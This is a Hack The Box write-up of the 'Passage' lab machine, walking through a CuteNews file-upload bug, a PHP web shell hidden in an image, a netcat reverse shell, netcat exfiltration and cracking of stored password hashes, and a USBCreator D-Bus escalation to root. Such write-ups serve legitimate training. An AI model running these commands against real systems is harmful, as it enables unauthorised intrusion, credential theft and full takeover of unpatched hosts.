




<div style="text-align:center">Write-up of Passage - Difficulty : Medium </div>

<!--more-->

>"None shall pass." - "I have no quarrel with you, good Sir Knight,
>but I must cross this bridge." - "Then you shall die."
>
>Monty Python and the Holy Grail

## 1. Overview

Passage is a Linux box hosting a blog/news website.  
The version of CuteNews installed allows for a file upload to RCE.  
Re-use of account credentials allows for lateral movement in the system.  
The root account is able to be compromised due to an unpatched version of USBCreator.  

## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22 and 80 are open.
The http title on 80 is Passage News.

``` bash 
 nmap -sC -sV 10.129.108.237
```




### 2.2 Website
#### 2.2.1 Passage News

First thing we need to do is check out the website on port 80.  We can do that by simply browsing to it in Firefox. The site appears to be some type of message board. All the posts are filler text except for the "Implemented Fail2Ban" post which just states that fail2ban has been installed.  If we run gobuster against this site our IP address will get banned for roughly five minutes.  At the bottom of the page is a reference to CuteNews and a link to their website.  

  

After poking around for a little while and not getting anywhere it's time to look at the documentation for Cute News.  The documentation mentioned a dashboard at **/CuteNews**.  

When we go to that site we're able to register for an account and login.  After some more enumeration there doesn't appear to be much info to grab.  We can see that the version of Cute News running is **2.1.2**.  

After some googling we wind up with [CVE-2019-11447](https://nvd.nist.gov/vuln/detail/CVE-2019-11447).  


## 3. Foothold

The CVE we found allows us to upload an image file with php code commented into the image and have the server execute it.  This vulnerability can be used for us to gain a foothold.

We can use any image file and add a comment with exiftool that allows us to run commands by putting the command in a GET request.  

``` bash
exiftool -comment='<?php echo system($_GET['cmd']); ?>'
```  
We change the extension to **.php** and upload it as an avatar to the user account that we created earlier.  

With this uploaded we're able to navigate to our file and run some commands, such as **id** to see who we're running commands as and **ls /bin** to see what's installed on the server.  

```
http://10.129.108.237/CuteNews/uploads/avatar_test_passage.php?cmd=id
http://10.129.108.237/CuteNews/uploads/avatar_test_passage.php?cmd=ls+/bin
```  
<br>

  
  

With these commands we can see that we're running as **www-data** and that **nc** and **nc.traditional** are installed on the server.  
Knowing that, we can simply use netcat to call back to a listener we set up on our box.  

We set up our listener with **nc -lvnp 1234** and use the following url encoded command in our browser to connect to it.  

```
http://10.129.108.237/CuteNews/uploads/avatar_test_passage.php?cmd=nc%2010.10.14.24%201234%20-e%20%2Fbin%2Fbash
```
  

 
## 4. Privilege Escalation
### 4.1 First user  

As usual when a website is running we want to check out **/var/www/html** to see if anything is left there for us to find.  In **/var/www/html/CuteNews/cdata/users** we find bunch of files that have base64 encrypted strings in them. To easily move these to our machine we ran **cat \* > hash.txt** and then moved the file over to our box with netcat.  
``` bash
on attack box
nc -lvnp 2345 > hash.txt

on victim box
nc -w 3 10.10.14.24 2345 < hash.txt
```  
  

Now we just remove extra data from the file and decode the base64 with **cat hash.txt|base64 -d > hash2.txt**.  Once that's complete we can run hashcat against the new hashes we found to see if anything is useful.  
```
hashcat -m 1400 -a 0 hash2.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
  

And since we found a couple passwords let's run **getent passwd** to find our users.  We try the passwords for our users **nadav** and **paul**.  A simple **su** to paul and we have our first user and the user flag in the home directory.  
  
  

### 4.2 Second User

Since we all know that users like to re-use things it's always a good practice to attempt to use what you already have to access other user accounts.  Neither of the passwords seem to work for **nadav** so let's try using **paul's** SSH key to get in.  We copied his private key over with **nc** using the same command as our previous transfer.  

We attempt to SSH in with the key as nadav and we get right in.  
  

### 4.3 Root

Running **groups** as nadav reveals that he's a member of quite a few things.  First thing's first, however, so let's go check out his home directory.  A simple **ls -a** and we find a hidden **.viminfo** file with some useful information in it.  

  

Nadav has been making some changes to something called **dbus-1/.../USBCreator.conf**.  If we do some more googling we wind up at [USCreator Privilege Escalation](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) which should allow use to overwrite arbitrary files on the system without password prompt so long as we are in the sudo group.  Sounds like a plan.  
Instead of copying our key over the victim host we'll just use nadav's since we already have the private key on our attack box.  
```bash
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true
```
  

Simple as that we have root access to the box.  


## Conclusion

1. Ensure your software is up to date.  Both attack vectors could be eliminated by installing required patches or updating to the newest version of the effected software.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>
